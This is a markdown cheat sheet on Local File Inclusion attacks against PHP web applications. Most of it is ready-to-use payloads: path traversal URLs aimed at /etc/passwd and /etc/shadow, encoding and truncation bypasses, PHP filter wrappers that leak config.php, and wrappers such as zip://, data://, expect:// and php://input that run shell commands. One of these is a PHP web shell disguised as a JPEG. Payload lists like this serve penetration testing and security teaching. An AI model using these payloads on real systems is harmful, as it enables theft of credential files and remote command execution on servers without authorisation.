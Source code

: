 ## Local File Inclusion (LFI)

## Introduction
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding
```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding
```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)
```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder
```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip
```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data
```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect
```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input
```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```